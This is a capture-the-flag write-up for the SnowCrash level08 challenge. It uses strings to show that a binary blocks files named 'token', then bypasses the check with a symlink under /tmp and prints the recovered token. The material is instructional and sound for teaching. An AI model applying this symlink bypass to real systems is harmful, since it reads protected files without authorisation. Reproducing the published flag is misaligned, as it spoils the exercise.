 # Level08 Exploit

In this challenge, we have an executable named `level08` and a file named ``token`. Upon attempting to execute `level08` with `token` as an argument, we receive a permission denied message.


## Initial Exploration

Let's start by exploring the contents of the directory:

```bash
level08@SnowCrash:~$ ls
> level08  token
```

Next, we attempt to execute the `level08` executable with the `token` file:

```bash
level08@SnowCrash:~$ ./level08 token 
> You may not access 'token'
```

We also verify the contents of the `token` file:

```bash
level08@SnowCrash:~$ cat token
> cat: token: Permission denied
```

## Vulnerability Analysis

Upon analyzing the `level08` executable using the `strings` command, we discover that it verifies whether the input file is named `token`. This suggests that the program restricts access to a file named `token`.

```bash
level08@SnowCrash:~$ strings level08 
> ...
> %s [file to read]
> token
> You may not access '%s'
> ...
```

## Exploit Procedure

To bypass this restriction and access the `token` file, we can create a symbolic link with a different name that points to the `token` file. Then, we can execute the `level08` executable with this symbolic link as an argument.

```bash
level08@SnowCrash:~$ ln -s ~/token /tmp/flag
```

Now, we rerun the `level08` program with the symbolic link:

```bash
level08@SnowCrash:~$ ./level08 /tmp/flag
> quif5eloekouj29ke0vouxean
```

## Conclusion

By creating a symbolic link with a different name pointing to the `token` file, we successfully bypassed the access restriction imposed by the `level08` program and retrieved the flag.
